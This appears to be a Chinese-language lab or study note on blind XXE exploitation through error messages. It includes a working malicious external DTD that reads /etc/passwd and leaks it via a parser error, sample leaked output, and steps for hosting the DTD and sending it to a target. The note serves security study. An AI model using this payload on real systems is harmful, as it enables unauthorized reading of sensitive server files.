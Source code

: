 # 知识点
利用blind XXE 的另一种方法是触发 XML 解析错误，其中错误消息包含您希望检索的敏感数据。如果应用程序在其响应中返回结果错误消息，这将是有效的。<br />您可以使用恶意外部 DTD 触发包含 /etc/passwd 文件内容的 XML 解析错误消息，如下所示：
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
此 DTD 执行以下步骤：

- 定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件的内容。
- 定义一个名为 eval 的 XML 参数实体，其中包含另一个名为 error 的 XML 参数实体的动态声明。将通过加载名称包含文件实体值的不存在文件来评估错误实体。
- 使用 eval 实体，这会导致执行错误实体的动态声明。
- 使用错误实体，以便通过尝试加载不存在的文件来评估其值，从而导致错误消息包含不存在文件的名称，即 /etc/passwd 文件的内容。

调用恶意外部 DTD 将导致如下错误消息：
```xml
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```



# 思路
将外部DTD存储在本地服务器中<br />![image.png](./images/20231017_2355555171.png)<br />发送xml给目标服务器<br />![image.png](./images/20231017_2355566816.png)
